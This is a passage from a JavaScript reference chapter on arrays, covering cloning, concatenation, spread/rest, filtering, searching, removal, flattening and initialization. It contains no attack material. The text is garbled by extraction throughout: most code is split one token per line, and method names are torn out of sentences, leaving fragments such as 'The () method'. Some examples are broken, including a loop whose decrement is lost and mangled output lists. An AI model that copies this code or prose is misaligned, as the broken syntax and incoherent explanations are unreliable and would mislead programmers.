;

deepReverse

(

arr

)

;

Results in:

arr

*// -\\[\[\[\'c\',\'b\',\'a\'\], 3, 2, 1\], 3, 2, 1\]*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-11">Section 12.11: Shallow cloning an array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Sometimes, you need to work with an array while ensuring you don\'t
modify the original. Instead of a clone method, arrays have a slice
method that lets you perform a shallow copy of any part of an array.
Keep in mind that this only clones the first level. This works well
with primitive types, like numbers and strings, but not objects.

To shallow-clone an array (i.e. have a new array instance but with the
same elements), you can use the following one-liner:

**var**

clone

=

arrayToClone.

slice

(

)

;

  -
  Array            .   **prototype**                  .   slice
  -  -  -

  -

This calls the built-in JavaScript method. If you pass arguments to
slice, you can get more

  
  slice
  

  

complicated behaviors that create shallow clones of only part of an
array, but for our purposes just calling () will create a shallow copy
of the entire array.
>
All method used to convert array like objects to array are applicable
to clone an array:

Version ≥ 6

arrayToClone

=

\[

1

,

2

,

3

,

4

,

5

\]

;

clone1

=

Array

.

from

(

arrayToClone

)

;

clone2

=

Array

.

of

(

\...

arrayToClone

)

;

clone3

=

\[

\...

arrayToClone

\]

*// the shortest way*

Version ≤ 5.1

arrayToClone

=

\[

1

,

2

,

3

,

4

,

5

\]

;

clone1

=

Array

.

**prototype**

.

slice

.

call

(

arrayToClone

)

;

clone2

=

\[

\]

.

slice

.

call

(

arrayToClone

)

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-12">Section 12.12: Concatenating Arrays</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Two Arrays**

**var**

array1

=

\[

1

,

2

\]

;

**var**

array2

=

\[

3

,

4

,

5

\]

;

Version

≥

3

**var**

array3

=

array1.

concat

(

array2

)

;

*// returns a new array*

Version ≥ 6

**var**

array3

=

\[

\...

array1

,

\...

array2

\]

Results in a new Array:

\[

1

,

2

,

3

,

4

,

5

\]

**Multiple Arrays**

**var**

array1

=

\[

\"a\"

,

\"b\"

\]

,

array2

=

\[

\"c\"

,

\"d\"

\]

,

array3

=

\[

\"e\"

,

\"f\"

\]

,

array4

=

\[

\"g\"

,

\"h\"

\]

;

Version ≥ 3

  
  array.concat
  

  

Provide more Array arguments to ()

**var**

arrConc

=

array1.

concat

(

array2

,

array3

,

array4

)

;

Version ≥ 6

Provide more arguments to \[\]

**var**

arrConc

=

\[

\...

array1

,

\...

array2

,

\...

array3

,

\...

array4

\]

Results in a new Array:

\[

\"a\"

,

\"b\"

,

\"c\"

,

\"d\"

,

\"e\"

,

\"f\"

,

\"g\"

,

\"h\"

\]

**Without Copying the First Array**

**var**

longArray

=

\[

1

,

2

,

3

,

4

,

5

,

6

,

7

,

8

\]

,

shortArray

=

\[

9

,

10

\]

;

Version ≥ 3

  
  Function                .   **prototype**              .   apply
      

  

Provide the elements of shortArray as parameters to push using

longArray.

push

.

apply

(

longArray

,

shortArray

)

;

Version ≥ 6

Use the spread operator to pass the elements of shortArray as separate
arguments to push

longArray.

push

(

\...

shortArray

)

The value of longArray is now:

\[

1

,

2

,

3

,

4

,

5

,

6

,

7

,

8

,

9

,

10

\]

Note that if the second array is too long (\>100,000 entries), you may
get a stack overflow error (because of how apply works). To be safe,
you can iterate instead:

shortArray.

forEach

(

**function**

(

elem

)

{

longArray.

push

(

elem

)

;

}

)

;

**Array and non-array values**

**var**

array

=

\[

\"a\"

,

\"b\"

\]

;

Version ≥ 3

**var**

arrConc

=

array.

concat

(

\"c\"

,

\"d\"

)

;

Version ≥ 6

**var**

arrConc

=

\[

\...

array

,

\"c\"

,

\"d\"

\]

Results in a new Array:

\[

\"a\"

,

\"b\"

,

\"c\"

,

\"d\"

\]

You can also mix arrays with non-arrays

**var**

arr1

=

\[

\"a\"

,

\"b\"

\]

;

**var**

arr2

=

\[

\"e\"

,

\"f\"

\]

;

**var**

arrConc

=

arr1.

concat

(

\"c\"

,

\"d\"

,

arr2

)

;

Results in a new Array:

\[

\"a\"

,

\"b\"

,

\"c\"

,

\"d\"

,

\"e\"

,

\"f\"

\]

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-13">Section 12.13: Merge two array as key value pair</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

When we have two separate array and we want to make key value pair
from that two array, we can use array\'s reduce function like below:

**var**

columns

=

\[

\"Date\"

,

\"Number\"

,

\"Size\"

,

\"Location\"

,

\"Age\"

\]

;

**var**

rows

=

\[

\"2001\"

,

\"5\"

,

\"Big\"

,

\"Sydney\"

,

\"25\"

\]

;

**var**

result

=

rows.

reduce

(

**function**

(

result

,

field

,

index

)

{

result

\[

columns

\[

index

\]

\]

=

field

;

**return**

result

;

}

,

{

}

)

console.

log

(

result

)

;

Output:

{

Date

:

\"2001\"

,

Number

:

\"5\"

,

Size

:

\"Big\"

,

Location

:

\"Sydney\"

,

Age

:

\"25\"

}

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-14">Section 12.14: Array spread / rest</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Spread operator**

Version ≥ 6

With ES6, you can use spreads to separate individual elements into a
comma-separated syntax:

**let**

arr

=

\[

1

,

2

,

3

,

\...

\[

4

,

5

,

6

\]

\]

;

*// \[1, 2, 3, 4, 5, 6\]*

*// in ES \< 6, the operations above are equivalent to*

arr

=

\[

1

,

2

,

3

\]

;

arr.

push

(

4

,

5

,

6

)

;

The spread operator also acts upon strings, separating each individual
character into a new string element. Therefore, using an array
function for converting these into integers, the array created above
is equivalent to the one below: **let** arr = \[1, 2, 3,
\...\[\...\"456\"\].map(x=\>parseInt(x))\]; *// \[1, 2, 3, 4, 5, 6\]*
>
Or, using a single string, this could be simplified to:

**let**

arr

=

\[

\...

\"123456\"

\]

.

map

(

x

=\>

parseInt

(

x

)

)

;

*// \[1, 2, 3, 4, 5, 6\]*

If the mapping is not performed then:

**let**

arr

=

\[

\...

\"123456\"

\]

;

*// \[\"1\", \"2\", \"3\", \"4\", \"5\", \"6\"\]*

The spread operator can also be used to spread arguments into a
function:

**function**

myFunction

(

a

,

b

,

c

)

{

}

**let**

args

=

\[

0

,

1

,

2

\]

;

myFunction

(

\...

args

)

;

*// in ES \< 6, this would be equivalent to:*

myFunction.

apply

(

**null**

,

args

)

;

**Rest operator**
>
The rest operator does the opposite of the spread operator by
coalescing several elements into a single one

\[a, b, \...rest\] = \[1, 2, 3, 4, 5, 6\]; *// rest is assigned \[3, 4,
5, 6\]* Collect arguments of a function:

**function**

myFunction

(

a

,

b

,

\...

rest

)

{

console.

log

(

rest

)

;

}

myFunction

(

0

,

1

,

2

,

3

,

4

,

5

,

6

)

;

*// rest is \[2, 3, 4, 5, 6\]*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-15">Section 12.15: Filtering values</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  filter
  

  

The () method creates an array filled with all array elements that
pass a test provided as a function.

Version ≥ 5.1

\[

1

,

2

,

3

,

4

,

5

\]

.

filter

(

**function**

(

value

,

index

,

arr

)

{

**return**

value

\>

2

;

}

)

;

Version ≥ 6

\[

1

,

2

,

3

,

4

,

5

\]

.

filter

(

value

=\>

value

\>

2

)

;

Results in a new array:

\[3, 4, 5\]

**Filter falsy values**

Version ≥ 5.1 **var** filtered = \[ 0, **undefined**, {}, **null**,
\'\', **true**, 5\].filter(Boolean);

Since Boolean is a native JavaScript function/constructor that takes
\[one optional parameter\] and the filter method also takes a function
and passes it the current array item as parameter, you could read it
like the following:

  
  Boolean
  

  

1.(0) returns false

  -
  Boolean                       (    **undefined**
    

  -

2.) returns false

  
  Boolean
  

  

3.({}) returns **true** which means push it to the returned array

  
  Boolean                                   (     **null**
   - 

  

4.  returns false

  -
  Boolean                                           (       \'\'
   - 

  -

5.  returns false

  
  Boolean                                   (     **true**
   - 

  

6.  returns **true** which means push it to the returned array

  
  Boolean
  

  

7.(5) returns **true** which means push it to the returned array
>
so the overall process will result

  
  **true**
  

  

\[ {},, 5 \]

**Another simple example**
>
This example utilises the same concept of passing a function that
takes one argument Version ≥ 5.1

**function**

startsWithLetterA

(

str

)

{

**if**

(

str

&&

str

\[

0

\]

.

toLowerCase

(

)

==

\'a\'

)

{

**return**

**true**

}

**return**

**false**

;

}

**var**

str

=

\'Since Boolean is a native javascript function/constructor that takes
\[one

optional parameter\] and the filter method also takes a function and
passes it the current array

item as a parameter, you could read it like the following\'

;

**var**

strArray

=

str.

split

(

\" \"

)

;

**var**

wordsStartsWithA

=

strArray.

filter

(

startsWithLetterA

)

;

*//\[\"a\", \"and\", \"also\", \"a\", \"and\", \"array\", \"as\"\]*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-16">Section 12.16: Searching an Array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The recommended way (Since ES5) is to use
[Array.prototype.find](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/find):

**let**

people

=

\[

{

name

:

\"bob\"

}

,

{

name

:

\"john\"

}

\]

;

**let**

bob

=

people.

find

(

person

=\>

person.

name

===

\"bob\"

)

;

*// Or, more verbose*

**let**

bob

=

people.

find

(

**function**

(

person

)

{

**return**

person.

name

===

\"bob\"

;

}

)

;

In any version of JavaScript, a standard **for** loop can be used as
well:

**for**

(

**var**

i

=

0

;

i

\<

people.

length

;

i

++

)

{

**if**

(

people

\[

i

\]

.

name

===

\"bob\"

)

{

**break**

;

*// we found bob*

}

}

**FindIndex**
>
The
[findIndex()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/findIndex)
method returns an index in the array, if an element in the array
satisfies the provided testing function. Otherwise -1 is returned.

array

=

\[

{

value

:

1

}

,

{

value

:

2

}

,

{

value

:

3

}

,

{

value

:

4

}

,

{

value

:

5

}

\]

;

**var**

index

=

array.

findIndex

(

item

=\>

item.

value

===

3

)

;

*// 2*

**var**

index

=

array.

findIndex

(

item

=\>

item.

value

===

12

)

;

*// -1*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-17">Section 12.17: Convert a String to an Array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  -
  split   () method splits a string into an array of substrings. By    split
          default .                                                    
  -  -

  -

  
  split                                   (       \" \"
   - 

  

The .() will break the string into substrings on spaces (\" \"), which
is equivalent to calling .).

  
  split
  

  

The parameter passed to .() specifies the character, or the regular
expression, to use for splitting the string.

  
  split
  

  

  
  slice                                        (        \"\"
    

  

To split a string into an array call . with an empty string (\"\").
**Important Note:** This only works if all of your characters fit in
the Unicode lower range characters, which covers most English and most
European languages. For languages that require 3 and 4 byte Unicode
characters, ) will separate them.
>
**var** strArray = \"StackOverflow\".split(\"\");
>
*// strArray = \[\"S\", \"t\", \"a\", \"c\", \"k\", \"O\", \"v\",
\"e\", \"r\", \"f\", \"l\", \"o\", \"w\"\]*

Version ≥ 6

Using the spread operator (\...), to convert a string into an array.
>
**var** strArray = \[\...\"sky is blue\"\];
>
*// strArray = \[\"s\", \"k\", \"y\", \" \", \"i\", \"s\", \" \",
\"b\", \"l\", \"u\", \"e\"\]*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-18">Section 12.18: Removing items from an array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Shift**

  
  shift
  

  

Use . to remove the first item of an array.
>
For example:

**var**

array

=

\[

1

,

2

,

3

,

4

\]

;

array.

shift

(

)

;

array results in:

\[

2

,

3

,

4

\]

**Pop**

  
  pop
  

  

Further . is used to remove the last item from an array.
>
For example:

**var**

array

=

\[

1

,

2

,

3

\]

;

array.

pop

(

)

;

array results in:

\[

1

,

2

\]

Both methods return the removed item;
>
**Splice**

  
  splice   () to remove a series of elements from an array. .      splice
    

  

Use .() accepts two parameters, the starting

  
  splice
  

  

index, and an optional number of elements to delete. If the second
parameter is left out .() will remove all elements from the starting
index through the end of the array.
>
For example:

**var**

array

=

\[

1

,

2

,

3

,

4

\]

;

array.

splice

(

1

,

2

)

;

leaves array containing:

\[

1

,

4

\]

  
  array.splice
  

  

The return of () is a new array containing the removed elements. For
the example above, the return would be:

\[

2

,

3

\]

Thus, omitting the second parameter effectively splits the array into
two arrays, with the original ending before the index specified:

**var**

array

=

\[

1

,

2

,

3

,

4

\]

;

array.

splice

(

2

)

;

\...leaves

array

containing

\[

1

,

2

\]

and returns

\[

3

,

4

\]

.

**Delete**
>
Use **delete** to remove item from array without changing the length
of array:

**var**

array

=

\[

1

,

2

,

3

,

4

,

5

\]

;

console.

log

(

array.

length

)

;

*// 5*

**delete**

array

\[

2

\]

;

console.

log

(

array

)

;

*// \[1, 2, undefined, 4, 5\]*

console.

log

(

array.

length

)

;

*// 5*

**Array.prototype.length**
>
Assigning value to length of array changes the length to given value.
If new value is less than array length items will be removed from the
end of value.

array

=

\[

1

,

2

,

3

,

4

,

5

\]

;

array.

length

=

2

;

console.

log

(

array

)

;

*// \[1, 2\]*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-19">Section 12.19: Removing all elements</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**var**

arr

=

\[

1

,

2

,

3

,

4

\]

;

**Method 1**
>
Creates a new array and overwrites the existing array reference with a
new one.

arr

=

\[

\]

;

Care must be taken as this does not remove any items from the original
array. The array may have been closed over when passed to a function.
The array will remain in memory for the life of the function though
you may not be aware of this. This is a common source of memory leaks.
>
Example of a memory leak resulting from bad array clearing:

**var**

count

=

0

;

**function**

addListener

(

arr

)

{

*// arr is closed over*

**var**

b

=

document.

body

.

querySelector

(

\"#foo\"

\+

(

count

++

)

)

;

b\.

addEventListener

(

\"click\"

,

**function**

(

e

)

{

*// this functions reference keeps*

*// the closure current while the*

*// event is active*

*// do something but does not need arr*

}

)

;

}

arr

=

\[

\"big data\"

\]

;

**var**

i

=

100

;

while

(

i

\>

0

)

{

addListener

(

arr

)

;

*// the array is passed to the function*

arr

=

\[

\]

;

*// only removes the reference, the original array remains*

array.

push

(

\"some large data\"

)

;

*// more memory allocated*

i

\

;

}

*// there are now 100 arrays closed over, each referencing a different
array*

*// no a single item has been deleted*

To prevent the risk of a memory leak use the one of the following 2
methods to empty the array in the above example\'s while loop.
>
**Method 2**
>
Setting the length property deletes all array element from the new
array length to the old array length. It is the most efficient way to
remove and dereference all items in the array. Keeps the reference to
the original array

arr.

length

=

0

;

**Method 3**
>
Similar to method 2 but returns a new array containing the removed
items. If you do not need the items this method is inefficient as the
new array is still created only to be immediately dereferenced.
>
arr.splice(0); *// should not use if you don\'t want the removed
items*
>
*// only use this method if you do the following* **var** keepArr =
arr.splice(0); *// empties the array and creates a new array
containing the* *// removed items*

[Related
question](http://stackoverflow.com/questions/1232040/how-do-i-empty-an-array-in-javascript).

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-20">Section 12.20: Finding the minimum or maximum element</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  Math                 .     min             .     apply
   -  - 

  

  
  Math                 .     max             .     apply
   -  - 

  

If your array or array-like object is *numeric*, that is, if all its
elements are numbers, then you can use or by passing **null** as the
first argument, and your array as the second.

**var**

myArray

=

\[

1

,

2

,

3

,

4

\]

;

Math

.

min

.

apply

(

**null**

,

myArray

)

;

*// 1*

Math

.

max

.

apply

(

**null**

,

myArray

)

;

*// 4*

Version ≥ 6

In ES6 you can use the \... operator to spread an array and take the
minimum or maximum element.

**var**

myArray

=

\[

1

,

2

,

3

,

4

,

99

,

20

\]

;

**var**

maxValue

=

Math

.

max

(

\...

myArray

)

;

*// 99*

**var**

minValue

=

Math

.

min

(

\...

myArray

)

;

*// 1*

The following example uses a

**for**

loop:

**var**

maxValue

=

myArray

\[

0

\]

;

**for**

(

**var**

i

=

1

;

i

\<

myArray.

length

;

i

++

)

{

**var**

currentValue

=

myArray

\[

i

\]

;

**if**

(

currentValue

\>

maxValue

)

{

maxValue

=

currentValue

;

}

}

Version ≥ 5.1

  
  Array            .   **prototype**                 .   reduce
  -    

  

The following example uses () to find the minimum or maximum:

**var**

myArray

=

\[

1

,

2

,

3

,

4

\]

;

myArray.

reduce

(

**function**

(

a

,

b

)

{

**return**

Math

.

min

(

a

,

b

)

;

}

)

;

*// 1*

myArray.

reduce

(

**function**

(

a

,

b

)

{

**return**

Math

.

max

(

a

,

b

)

;

}

)

;

*// 4*

Version ≥ 6 or using arrow functions:

myArray.

reduce

(

(

a

,

b

)

=\>

Math

.

min

(

a

,

b

)

)

;

*// 1*

myArray.

reduce

(

(

a

,

b

)

=\>

Math

.

max

(

a

,

b

)

)

;

*// 4*

Version

≥

5.1

To generalize the reduce version we\'d have to pass in an *initial
value* to cover the empty list case:

**function**

myMax

(

array

)

{

**return**

array.

reduce

(

**function**

(

maxSoFar

,

element

)

{

**return**

Math

.

max

(

maxSoFar

,

element

)

;

}

,

\-

**Infinity**

)

;

}

myMax

(

\[

3

,

5

\]

)

;

*// 5*

myMax

(

\[

\]

)

;

*// -Infinity*

Math

.

max

.

apply

(

**null**

,

\[

\]

)

;

*// -Infinity*

For the details on how to properly use reduce see Reducing values.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-21">Section 12.21: Standard array initialization</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

There are many ways to create arrays. The most common are to use array
literals, or the Array constructor:

**var**

arr

=

\[

1

,

2

,

3

,

4

\]

;

**var**

arr2

=

**new**

Array

(

1

,

2

,

3

,

4

)

;

If the Array constructor is used with no arguments, an empty array is
created.

**var**

arr3

=

**new**

Array

(

)

;

results in:

\[

\]

Note that if it\'s used with exactly one argument and that argument is
a number, an array of that length with all **undefined** values will
be created instead:

**var**

arr4

=

**new**

Array

(

4

)

;

results in:

\[

**undefined**

,

**undefined**

,

**undefined**

,

**undefined**

\]

That does not apply if the single argument is non-numeric:

**var**

arr5

=

**new**

Array

(

\"foo\"

)

;

results in:

\[\"foo\"\]

Version ≥ 6

  
  Array                                        .        of
    

  

Similar to an array literal, can be used to create a new Array
instance given a number of arguments:

Array

.

of

(

21

,

\"Hello\"

,

\"World\"

)

;

results in:

\[

21

,

\"Hello\"

,

\"World\"

\]

  -
  Array                            .      of           (      23
  -    

  -

  
  23
  

  

In contrast to the Array constructor, creating an array with a single
number such as ) will create a new array \[\], rather than an Array
with length 23.

  -
  Array                               .       from
   - 

  -

The other way to create and initialize an array would be
>
**var** newArray = Array.from({ length: 5 }, (\_, index) =\>
Math.pow(index, 4));
>
will result:

\[

0

,

1

,

16

,

81

,

256

\]

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-22">Section 12.22: Joining array elements in a string</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

To join all of an array\'s elements into a string, you can use the
join method:

console.

log

(

\[

\"Hello\"

,

\" \"

,

\"world\"

\]

.

join

(

\"\"

)

)

;

*// \"Hello world\"*

console.log(\[1, 800, 555, 1234\].join(\"-\")); *//
\"1-800-555-1234\"*
>
As you can see in the second line, items that are not strings will be
converted first.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-23">Section 12.23: Removing/Adding elements using splice()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  splice
  

  

The ()method can be used to remove elements from an array. In this
example, we remove the first 3 from the array.

**var**

values

=

\[

1

,

2

,

3

,

4

,

5

,

3

\]

;

**var**

i

=

values.

indexOf

(

3

)

;

**if**

(

i

\>=

0

)

{

values.

splice

(

i

,

1

)

;

}

*// \[1, 2, 4, 5, 3\]*

  
  splice
  

  

The () method can also be used to add elements to an array. In this
example, we will insert the numbers 6, 7, and 8 to the end of the
array.

**var**

values

=

\[

1

,

2

,

4

,

5

,

3

\]

;

**var**

i

=

values.

length

\+

1

;

values.

splice

(

i

,

0

,

6

,

7

,

8

)

;

*//\[1, 2, 4, 5, 3, 6, 7, 8\]*

  
  splice
  

  

The first argument of the () method is the index at which to
remove/insert elements. The second argument is the number of elements
to remove. The third argument and onwards are the values to insert
into the array.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-24">Section 12.24: The entries() method</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  entries
  

  

The () method returns a new Array Iterator object that contains the
key/value pairs for each index in the array. Version ≥ 6

**var**

letters

=

\[

\'a\'

,

\'b\'

,

\'c\'

\]

;

**for**

(

**const**

\[

index

,

element

\]

of letters.

entries

(

)

)

{

console.

log

(

index

,

element

)

;

}

result

0

\"a\"

1

\"b\"

2

\"c\"

**Note**: [This method is not supported in Internet
Explorer.](http://kangax.github.io/compat-table/es6/#test-Array.prototype_methods_Array.prototype.entries)

  
  [*Array*](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/entries)   [*.*](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/entries)   [***prototype***](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/entries)   [*.*](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/entries)   [*entries*](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/entries)
  - -  - 

  

*Portions of this content from by [Mozilla
Contributors](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/entries$history)
licensed under [CC-by-SA
2.5](http://creativecommons.org/licenses/by-sa/2.5/)*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-25">Section 12.25: Remove value from array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

When you need to remove a specific value from an array, you can use
the following one-liner to create a copy array without the given
value:

array.

filter

(

**function**

(

val

)

{

**return**

val

!==

to_remove

;

}

)

;

Or if you want to change the array itself without creating a copy (for
example if you write a function that get an array as a function and
manipulates it) you can use this snippet: while(index =
array.indexOf(3) !== -1) { array.splice(index, 1); } And if you need
to remove just the first value found, remove the while loop:

**var**

index

=

array.

indexOf

(

to_remove

)

;

**if**

(

index

!==

\-

1

)

{

array.

splice

(

index

,

1

)

;

}

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-26">Section 12.26: Flattening Arrays</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**2 Dimensional arrays** Version ≥ 6
>
In ES6, we can flatten the array by the spread operator
[\...](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_operator):

**function**

flattenES6

(

arr

)

{

**return**

\[

\]

.

concat

(

\...

arr

)

;

}

**var**

arrL1

=

\[

1

,

2

,

\[

3

,

4

\]

\]

;

console.

log

(

flattenES6

(

arrL1

)

)

;

*// \[1, 2, 3, 4\]*

Version ≥ 5

In ES5, we can achieve that by
[.apply()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/apply):

**function**

flatten

(

arr

)

{

**return**

\[

\]

.

concat

.

apply

(

\[

\]

,

arr

)

;

}

**var**

arrL1

=

\[

1

,

2

,

\[

3

,

4

\]

\]

;

console.

log

(

flatten

(

arrL1

)

)

;

*// \[1, 2, 3, 4\]*

**Higher Dimension Arrays**
>
Given a deeply nested array like so

**var**

deeplyNested

=

\[

4

,

\[

5

,

6

,

\[

7

,

8

\]

,

9

\]

\]

;

It can be flattened with this magic

console.

log

(

String

(

deeplyNested

)

.

split

(

\',\'

)

.

map

(

Number

)

;

\#

=\>

\[

4

,

5

,

6

,

7

,

8

,

9

\]

Or

**const**

flatten

=

deeplyNested.

toString

(

)

.

split

(

\',\'

)

.

map

(

Number

)

console.

log

(

flatten

)

;

\#

=\>

\[

4

,

5

,

6

,

7

,

8

,

9

\]

Both of the above methods only work when the array is made up
exclusively of numbers. A multi-dimensional array of objects cannot be
flattened by this method.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-27">Section 12.27: Append / Prepend items to Array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Unshift**

  
  .unshift
  

  

Use to add one or more items in the beginning of an array.
>
For example:

**var**

array

=

\[

3

,

4

,

5

,

6

\]

;

array.

unshift

(

1

,

2

)

;

array results in:

\[

1

,

2

,

3

,

4

,

5

,

6

\]

**Push**

  
  .push
  

  

Further is used to add items after the last currently existent item.
>
For example:

**var**

array

=

\[

1

,

2

,

3

\]

;

array.

push

(

4

,

5

,

6

)

;

array results in:

\[

1

,

2

,

3

,

4

,

5

,

6

\]

Both methods return the new array length.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch12-28">Section 12.28: Object keys and values to array</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**var**

object

=

{

key1

:

10
